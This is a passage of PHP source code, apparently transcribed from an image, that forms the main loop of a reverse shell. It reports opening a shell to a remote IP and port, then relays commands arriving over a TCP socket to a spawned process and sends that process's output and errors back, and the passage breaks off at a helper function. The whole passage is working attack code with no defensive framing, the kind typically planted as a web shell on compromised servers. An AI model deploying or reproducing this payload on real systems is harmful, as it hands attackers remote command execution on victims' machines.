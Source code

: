 ```php
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
```